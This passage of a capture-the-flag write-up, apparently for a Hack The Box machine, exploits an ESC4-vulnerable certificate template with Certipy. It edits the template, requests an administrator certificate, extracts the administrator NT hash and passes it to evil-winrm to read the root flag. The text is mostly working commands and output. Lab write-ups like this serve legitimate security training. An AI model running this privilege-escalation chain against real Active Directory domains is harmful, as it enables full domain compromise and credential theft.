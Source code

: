 We can see that the DunderMifflinAuthentication template is vulnerable to ESC4. I used [ceripy's official walkthrough](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) on how to exploit it. The first step is to update the template to make it vulnerable to ESC1.

```
certipy template -u 'ca_svc@sequel.htb' -p 'password' -dc-ip '10.10.11.51' -template 'DunderMifflinAuthentication'   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication
```

Then we can request the administrator pfx with the following command. If the command fails I recommend adding more flags like the subject. In the case that we get an error saying that the SIDs do not match I recommend simply removing the SID flag entirely as it still worked without it.

```
certipy req  -u 'ca_svc@sequel.htb' -p 'password'  -dc-ip '10.10.11.51' \
-target 'sequel.htb' -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' \
-upn 'administrator@sequel.htb' -subject 'CN=Administrator,CN=Users,DC=SEQUEL,DC=HTB'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with subject: DC=SEQUEL,DC=HTB,CN=Administrator,CN=Users
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Finally to get the NTLM hash we can again use certipy with the following command:
```
certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.51'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
With the NTLM hash we can start a winrm session to get the root flag:

```
evil-winrm -i sequel.htb -H 7a8d4e04986afa8ed4060f75e5a0b3ff -u Administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ~\Desktop\root.txt
1b764a838<SNIP>
```